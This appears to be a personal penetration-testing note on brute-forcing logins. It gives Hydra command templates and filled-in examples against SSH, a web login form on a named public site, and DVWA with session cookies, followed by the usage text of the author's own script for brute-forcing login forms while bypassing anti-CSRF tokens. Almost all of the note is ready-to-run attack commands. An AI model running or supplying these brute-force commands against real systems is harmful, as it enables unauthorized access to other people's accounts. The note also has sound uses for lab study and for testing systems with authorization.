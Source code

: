 [[Brute-Force-Attack]]
## HYDRA
Is a brute force tool  
  
```  
Usage : hydra -l <user> -P <password list> <protocol>://<ip>:<port> -t <threads> -V  


hydra -l root -P /usr/share/wordlists/metasploit/unix \_passwords.txt ssh://10.0.2.6:22 -t 4 -V

```

hydra -l {username} -P {password list path} -s {port} -f {Site Address} http-post-form “{Path to postback page}:{USERNAME\_NAME}=^USER^&{PASSWORD\_NAME}=^PASS^:{failed login text}”

```
hydra -l hydra -P password.lst -s 80 -f www.sillychicken.co.nz http-post-form “/administrator/index.php:usrname=^USER^&pass=^PASS^&submit=Login:Incorrect Username”
```


### HYDRA with PHPSESSID

```
hydra 192.168.0.105 -V -l admin -P ~/rockyou.txt http-get-form "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=rname and/or password incorrect:H=Cookie: PHPSESSID=f8ucrbu0qmta4ettc3208gcvnq; security=low" -t 64

```

# My Tool
### Can be used to brute force a login form. Also supports anti-csrf token bypass.
```
./anti_csrf_brute.py -P ./password.txt -u http://192.168.0.112/dvwa/vulnerabilities/brute -c "PHPSESSID:tjj0esrnt64heiqr50hbbpj8s4;security:high;" -F incorrect -param username:admin;password:^PASS^;Login:Login;user_token:^CSRF^"


usage: anti_csrf_brute.py [-h] [-c COOKIES] [-u URL] [-param PARAM] [-l LOGIN]
                          [-p PASSWORD] [-L LOGINLIST] [-P PASSWORDLIST]
                          [-C CSRFXPATH] [-F FAILEDTEXT] [-m METHOD]

optional arguments:
  -h, --help            show this help message and exit
  -c COOKIES, --cookies COOKIES
                        Cookies: -c PHPSESSID:f8ucrbu0qmta4ettc3208gcvnq&
                        security:low
  -u URL, --url URL     URL: -u http://127.0.0.1/
  -param PARAM, --param PARAM
                        Param: -p username:admin; password:123456; OR -p
                        username:^USER^; password:^PASS^
  -l LOGIN, --login LOGIN
                        Login: -l admin
  -p PASSWORD, --password PASSWORD
                        Password: -p password
  -L LOGINLIST, --loginlist LOGINLIST
                        LoginList: -l ~/users.txt
  -P PASSWORDLIST, --passwordlist PASSWORDLIST
                        Password: -p password
  -C CSRFXPATH, --csrfxpath CSRFXPATH
                        CSRF-Xpath: //input[@name='user_token']/@value
  -F FAILEDTEXT, --failedtext FAILEDTEXT
                        Failed Login Text: Incorrect password
  -m METHOD, --method METHOD
                        Method: -m get OR -m POST
```
![[Pasted image 20210117153716.png]]